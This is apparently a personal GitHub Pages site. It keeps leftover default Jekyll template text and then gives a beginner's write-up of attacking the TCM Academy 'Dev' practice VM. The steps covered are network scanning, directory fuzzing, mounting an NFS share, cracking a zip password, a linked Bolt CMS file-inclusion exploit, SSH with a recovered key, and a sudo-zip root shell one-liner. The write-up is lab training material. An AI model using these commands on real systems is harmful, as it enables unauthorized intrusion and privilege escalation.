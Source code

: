 ## Welcome to GitHub Pages

You can use the [editor on GitHub](https://github.com/TheMaster-2/EthicalHackingWriteUps/edit/gh-pages/index.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

Test

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [Basic writing and formatting syntax](https://docs.github.com/en/github/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/TheMaster-2/EthicalHackingWriteUps/settings/pages). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

Machine 1
Dev by TCM Academy

This is my first write up

This Vulnerable by design VM is provided by TCM Acamdemy as part of the Practical Ethical Hacking - The Complete Course

I had to change Network cards to NAT, also for some reason this VM was dual honed, however, this is not relevant for this VM. 

Nnce VM booted, I had to log in and run (creds are provided in a text file byt TCM)
```markdown
DHClient
```


Then run Netdiscover to get target IP, for me.
```markdown
sudo netdiscover -r 192.168.22.0/24
```
We find our target VM
192.168.22.136
Next step is to run NMAP
```markdown
sudo nmap -A -p- -T4 192.168.22.136
```

![image](https://user-images.githubusercontent.com/66864342/160243024-f237bfba-81e5-4266-8bd8-12e3805577fa.png)
![image](https://user-images.githubusercontent.com/66864342/160243035-fb8b2c2a-664a-43e4-8244-7aba436d9488.png)

Interesting ports and info
- 22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
- |_http-server-header: Apache/2.4.38 (Debian)
- |_http-title: Bolt - Installation error
- 111/tcp   open  rpcbind  2-4 (RPC #100000)
- 2049/tcp  open  nfs_acl  3 (RPC #100227)
- 8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
-	|_http-server-header: Apache/2.4.38 (Debian)
-	|_Methods supported:CONNECTION
-	|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
-
- Running: Linux 4.X|5.X
- OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
- OS details: Linux 4.15 - 5.6
- Network Distance: 1 hop
- Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel!

Browse to port http://192.168.22.136:80
Default webpage bolt installation error?

![image](https://user-images.githubusercontent.com/66864342/160243232-38f450e6-66ee-4140-946f-4cf00e9c9f08.png)


Browse to http://192.168.22.136:8080
Discovered PHP settings


![image](https://user-images.githubusercontent.com/66864342/160243472-26a386e7-8ee1-4766-9c42-a8b12c983547.png)


Ran FFUF to parse web folders in two tabs
```markdown
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ http://192.168.22.136/FUZZ
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ http://192.168.22.136:8080/FUZZ
```

So now I checked NFS
```markdown
Showmount -e 192.168.22.136 for nfs
```

mkdir in mnt i called it nfs
```markdown
cd mnt
mkdir nfs
sudo mount -t nfs 192.168.22.136:/srv/nfs /mnt/nfs -o nolock
```

In nfs folder we find a file called save.zip


![image](https://user-images.githubusercontent.com/66864342/160244210-cb28624a-b755-4284-8f4d-2ebd4efa4ec8.png)


However the file is password protected. so lets try fcrack!
```markdown
Fcrack -v -u -D -p /usr/share/wordlists/rockyou.txt
```

info
-v=verbose -u=unzip -D=dictionary -p=file


password is java101

We extract 2 file

![image](https://user-images.githubusercontent.com/66864342/160245066-0cf3a05e-29cc-4093-b373-11ca7aaca0b5.png)


Ok so then I cat both files

![image](https://user-images.githubusercontent.com/66864342/160245036-adf5e998-18cb-40ca-a990-ea3f22476fa8.png)

the id_rsa is a certificate file


Discovered the following web folders


![image](https://user-images.githubusercontent.com/66864342/160243845-7911f7ae-a700-4cbd-991a-4e48fd81a3cb.png)


Opened config.yaml and we Find a username & password


![image](https://user-images.githubusercontent.com/66864342/160244148-5dcb3f37-b215-47f1-9b77-6e9fafc0847c.png)



Back to port 80 and see what bolt is...
After Googling, it seems to be a CMS, I also find an exploit for a local file inclusion
https://www.exploit-db.com/exploits/48411


![image](https://user-images.githubusercontent.com/66864342/160244458-e91cdcf8-2f4c-4af6-a7f5-ccf99d837cba.png)

Run the exploit after registering and account

![image](https://user-images.githubusercontent.com/66864342/160244777-797f3760-e6d2-49ec-8f19-708e976adc1a.png)



![image](https://user-images.githubusercontent.com/66864342/160244472-ad6caaa5-1ec9-4a8f-8411-53bf70e56edf.png)


The one of interest to us is the user 1000 permission futher down the list

jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash


![image](https://user-images.githubusercontent.com/66864342/160244492-f39e6c95-d357-4250-a950-21da05052723.png)

Ok so now lets try logging in as jeanpaul with a password (this didnt work, so used SSH -i id_rsa - I also had to change permission on file to 400

```markdown
ssh -i id_rsa jeanpaul@192.168.22.136
```

```markdown
sudo -l
```
   (root) NOPASSWD: /usr/bin/zip
   
So the above means we can run zip as root

So goto GTFOBINS
https://gtfobins.github.io/

search for ZIP, and get the sudo one

type commands one line at a time
```markdown
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

![image](https://user-images.githubusercontent.com/66864342/160245568-96c1fe61-2516-4811-b792-0358998ad105.png)



BOOM JOB DONE!






